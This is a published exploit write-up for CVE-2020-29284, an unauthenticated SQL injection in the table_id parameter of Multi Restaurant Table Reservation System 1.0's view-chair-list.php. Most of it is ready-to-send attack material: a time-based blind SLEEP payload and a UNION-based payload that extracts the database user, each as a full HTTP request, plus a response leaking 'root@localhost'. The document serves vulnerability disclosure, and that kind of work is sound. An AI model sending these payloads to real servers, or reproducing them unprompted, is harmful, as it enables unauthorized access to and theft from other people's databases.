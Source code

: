 # CVE-2020-29284

### Title: Multi Restaurant Table Reservation System 1.0 - 'table_id' Unauthenticated SQL Injection
### Exploit Author: yunaranyancat
### Date: 02-11-2020
### Vendor Homepage: www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/sites/default/files/download/janobe/tablereservation.zip
### Version: 1.0
### Tested On: Ubuntu 18.04 + XAMPP

### Description

The file view-chair-list.php does not perform input validation on the table_id parameter which allows unauthenticated SQL Injection.
An attacker can send malicious input in the GET request to /dashboard/view-chair-list.php?table_id= to trigger the vulnerability.

### POC N° 1 = Time based blind SQLi

```
GET /TableReservation/dashboard/view-chair-list.php?table_id='+AND+(SELECT+1+FROM+(SELECT(SLEEP(10)))a)--+- HTTP/1.1
Host: [TARGET IP/URL]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Server will sleep for 10 seconds before returning the response

### POC N° 2 = UNION based SQLi

### Request (getting current user)

```
GET /TableReservation/dashboard/view-chair-list.php?table_id=%27%20UNION%20ALL%20SELECT%20CONCAT%280x7176787071%2CIFNULL%28CAST%28CURRENT_USER%28%29%20AS%20NCHAR%29%2C0x20%29%2C0x71716b7071%29%2CNULL%2CNULL--%20- HTTP/1.1
Host: [TARGET IP/URL]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 2
```

### Response
```
...
<td class="center hidden-phone">
<a href="delete-chair.php?chair_id=[REDACTED]root@localhost[REDACTED] class="btn btn-danger"  onclick="if (!Done()) return false; ">Delete Chair</a>
...
```
